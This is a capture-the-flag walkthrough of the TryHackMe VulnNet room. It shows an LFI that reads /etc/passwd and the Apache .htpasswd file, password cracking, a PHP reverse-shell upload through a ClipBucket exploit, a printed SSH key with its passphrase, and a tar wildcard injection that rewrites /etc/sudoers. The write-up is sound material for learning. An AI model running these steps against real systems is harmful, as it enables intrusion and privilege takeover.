 # 71 - VulnNet (LFI, JS code review, tar \*)

Room Link --> [https://tryhackme.com/room/vulnnet1](https://tryhackme.com/room/vulnnet1)

You will have to add a machine IP with domain: `vulnnet.thm` to your /etc/hosts

### Enumeration

{% code overflow="wrap" %}
```bash
nmap -Pn -n -vv 10.10.33.25 -p- -sV -T5

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```
{% endcode %}

Navigating to the webpage `http://vulnnet.thm` .

<figure><img src=".gitbook/assets/image (464).png" alt=""><figcaption></figcaption></figure>

#### Gobuster Enumeration

{% code overflow="wrap" %}
```bash
gobuster dir -u http://vulnnet.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403 -b 404

/css
/js
/img
/fonts
```
{% endcode %}

#### Subdomain Bruteforce / Discovery

{% code overflow="wrap" %}
```bash
ffuf -u http://vulnnet.thm -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.vulnnet.thm' -fs 5829

broadcast
```
{% endcode %}

This leads to an authentication page.

[http://broadcast.vulnnet.thm/](http://broadcast.vulnnet.thm/)

<figure><img src=".gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

But we don't have any credentials.&#x20;

I enumerated the JavaScript files in the JS dir, and found a parameter in the `index__d8338055.js` file:  --> \`[http://vulnnet.thm/index.php?referer=](http://vulnnet.thm/index.php?referer=)\`

<figure><img src=".gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

So i check for LFI and it worked:

[http://vulnnet.thm/index.php?referer=/etc/passwd](http://vulnnet.thm/index.php?referer=/etc/passwd)

<figure><img src=".gitbook/assets/image (467).png" alt=""><figcaption></figcaption></figure>

Back to the [http://broadcast.vulnnet.thm/](http://broadcast.vulnnet.thm/)

The page is using a Basic authentication

<figure><img src=".gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can try to view the file that stores credentials for Basic Authentication on Ubuntu Apache, ie the `htpasswd` file. Located at `/etc/apache2/.htpasswd`&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Reading the file and we see a credential:

`developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0` .

Cracking with John.

Cracked --> `developers :  9972761drmfsls` .

<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Poceed to login to the page. And got a `Clipbucket CMS` .

So Google Exploit for ClipBucket v4.0 exploits, and saw a [FIle Upload Exploit](https://www.exploit-db.com/exploits/44250).

### Initial Access

#### Uploading malicious php file.

Using Curl

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:9972761drmfsls
creating file{"success":"yes","file_name":"169989120868ca6d","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

We naviigate to [http://broadcast.vulnnet.thm/actions/](http://broadcast.vulnnet.thm/actions/) There is a `CB_BEATS_UPLOAD_DIR`

We execute it and get shell.

<figure><img src=".gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Server-management user

There is a backup folder in the /var dir with some .gz files with Read privs on the, so we can download to kali and untar them.

{% code overflow="wrap" lineNumbers="true" %}
```bash
-rw-rw-r--  1 server-management server-management    1484 Jan 24  2021 ssh-backup.tar.gz
```
{% endcode %}

After untaring the file there is a `id_rsa` file.

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A7DAB4829FE59CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH8aV2FTiuMUsugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J0ZbOdEXvDBOpu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUADGeuFl12dLahapM5ZuKURwnzW9+RwmmJSuT0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----
```

We use `ssh2john` to crack the key password.

`oneTWO3gOyac`

```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh server-management@broadcast.vulnnet.thm -i id_rsa
```

Adnd am logged in.

### Priv Esc to Root

There is a cronjob running as root every 2 minutes.

<figure><img src=".gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
server-management@vulnnet:/var/opt$ cat backupsrv.sh 
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest

```

Its backingup everything in the Documents dir and saving to /var/backups dir every 2 minutes.

We can exploit the `*` (wildcard) there.

However, to exploit the vulnerability, execute below commands in the **/home/server-management/Documents/**.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># we just add ourself to the /etc/sudoers file.
</strong><strong>echo 'echo "server-management ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > exploit.sh
</strong>echo "" > "--checkpoint-action=exec=sh exploit.sh"
echo "" > --checkpoint=1
</code></pre>

Now, wait 2 minutes, and execute `sudo /bin/bash` and your are **ROOT!**.

Done!

